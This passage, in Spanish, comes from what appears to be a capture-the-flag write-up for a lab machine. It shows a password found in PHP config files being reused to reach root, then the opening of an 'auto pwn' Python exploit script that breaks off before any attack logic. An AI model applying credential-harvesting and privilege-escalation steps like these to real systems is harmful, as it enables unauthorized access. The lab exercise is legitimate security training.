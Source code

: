 En la subsección “Searching passwords in config PHP files”

![Untitled](/assets/img/Validatio/Untitled35.png)

Nos está listando una contraseña:

- `uhc-9qual-global-pw`

La probamos con el usuario root

![Untitled](/assets/img/Validatio/Untitled36.png)

Se habrá ganado acceso al usuario root. Esta contraseña se encuentra en el directorio `/var/ww/html` y fácilmente hubiera sido listada con el usuario www-data.

Listando flag: `root.txt`

![Untitled](/assets/img/Validatio/Untitled37.png)

Es evidente que "Linpeas" es una herramienta muy útil para la escalada de privilegios, ya que nos ayuda a recopilar una gran cantidad de información útil. Si bien puede no ser tan relevante en máquinas sencillas como esta, puede resultar muy valiosa en máquinas más complejas. En definitiva, "Linpeas" es una opción interesante que deberíamos considerar para futuras escaladas de privilegios, ya que también funciona en Windows.

## Script Python Auto Pwn

```python
##!/usr/bin/python3

from pwn import *
import signal, pdb, requests
import sys
import threading  # Agregar la importación de threading

def def_handler(sig, frame):
    print("\n\n[!] Saliendo...\n")
    sys.exit(1)

## Ctrl+C
signal.signal(signal.SIGINT, def_handler)

if len(sys.argv) != 3:
    log.failure("Uso: %s <ip-address> filename" % sys.argv[0])
    sys.exit(1)

## Variables Globales
ip_address = sys.argv[1]
```